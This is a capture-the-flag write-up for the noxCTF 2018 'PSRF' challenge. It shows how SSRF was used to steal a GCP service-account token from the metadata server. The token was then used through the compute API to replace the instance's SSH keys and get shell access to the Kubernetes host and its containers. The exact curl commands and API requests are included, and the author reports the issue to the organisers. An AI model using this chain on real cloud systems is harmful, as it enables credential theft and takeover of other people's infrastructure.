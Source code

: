# noxCTF-2018-PSRF-as-Pwn

## Story
When I was play noxCTF 2018, I saw a challenge named PSRF, then I thought that might be SSRF, PostScript, or both.  
Then I decided to look at that.
I trying to solve it by the way I think it should be, but I always got HTTP 500 when I trying to access another server, so I decided to use another way to do it.

## Recon
The challenge provide an input box and a radio box, and it will send a HTTP GET request to 
`http://35.241.245.36/api/v1/upload?url=http://your_url&method=get`  
like this, and it will return an image name, and the result of the SSRF will store under `http://35.241.245.36/images/`  
  
The challenge has kubernetes logo on the bottom of the page like the screenshot below, and the IP is 35.241.245.36.  
![Page Screenshot](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.10.19.png)  
  
I immediately realized that is a GCP machine, so I tested the backend server by sending HTTP request to my server to see if it is also on GCP, and it is.  
![GCP determine](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.38.42.png) 

## Cloud Based Attack
I think there is not much people know about [http://metadata.google.internal](http://metadata.google.internal).  
Well, basically, it is a "feature" provided by Google Cloud Platform, you can use it to access information about the project and instances, but it also include the time limited API token of service account under the project. It is enable by the default.

## PoC
1. Sending SSRF Payload and get the result  
```
curl -s 'http://35.241.245.36/images/'`curl -s "http://35.241.245.36/api/v1/upload?url=http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token&method=get"`
```

2. And you will get something like this, one access token, and it's type, which is Bearer.
```
{"access_token":"xxxxxxxxxx","expires_in":3063,"token_type":"Bearer"}
```

3. Doing this for other information we need  
```
http://metadata.google.internal/computeMetadata/v1/project/project-id
http://metadata.google.internal/computeMetadata/v1/instance/name
http://metadata.google.internal/computeMetadata/v1/instance/zone
```

4. Now, you can use this API on your own computer `https://www.googleapis.com/compute/v1/projects/{}/zones/{}/instances/{}`  
  With header
```
Metadata-Flavor: Google
Authorization: Bearer xxxxxxxx_token_from_first_step_xxxxxxxx
```

5. You will get some thing like this.
```
.........................
 ],
 "metadata": {
  "kind": "compute#metadata",
  "fingerprint": "2bsm86CRs-0=",
  "items": [
   {
    "key": "instance-template",
    "value": "projects/720594190990/global/instanceTemplates/gke-psrf-dev-default-pool-9ae6b68d"
   },
   {
    "key": "created-by",
    "value": "projects/720594190990/zones/europe-west1-b/instanceGroupManagers/gke-psrf-dev-default-pool-9ae6b68d-grp"
   },
   {
    "key": "gci-update-strategy",
    "value": "update_disabled"
   }
.........................
```
    We only need the fingerprint

6. Set the ssh key
Send a POST request to this link with the header and data
`https://www.googleapis.com/compute/v1/projects/{}/zones/{}/instances/{}/setMetadata`  
```
Metadata-Flavor: Google
Authorization: Bearer xxxxxxxx_token_from_first_step_xxxxxxxx
Content-Type: application/json
```
```
{
  "fingerprint":"2bsm86CRs-0=",
  "items": [
    {
      "key": "sshKeys",
      "value": "username:ssh-rsa AAAAB..................4KeQzSMFH userid"
    }
  ]
}
```
7. You just replace the original ssh key to yours.
P.S. You can also do this on the whole project.  
The API detail can be found on [Managing SSH keys in Metadata](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys)

## Solving the challenge by not its design
I ssh to the server. I know it is using kubernetes, so I run `docker ps`  
![docker ps](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.57.22.png)

Then `docker exec -it xxxxxxxxx /bin/sh`  
Then `ls`

![source code](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.10.32.png)

Easy, just solved the challenge by looking at the source code

## Follow up
I report this security issue to the team, and just fix it pretty quick.
![coversation_1](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.28.22.png)
![coversation_2](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.43.38.png)

## Applicable environment
Not only GCP has these kind of management interface, you can also found similar thing on AWS.  
Most of CTF use docker to host challenges, but in most of the challenges that don't limit the network, so it is possible to do a privilege escalation on pwn or web challenges.

## References
(Twistlock Protection for Kubernetes Specific Attacks)[https://www.twistlock.com/2018/05/30/twistlock-protection-kubernetes-specific-attacks/]
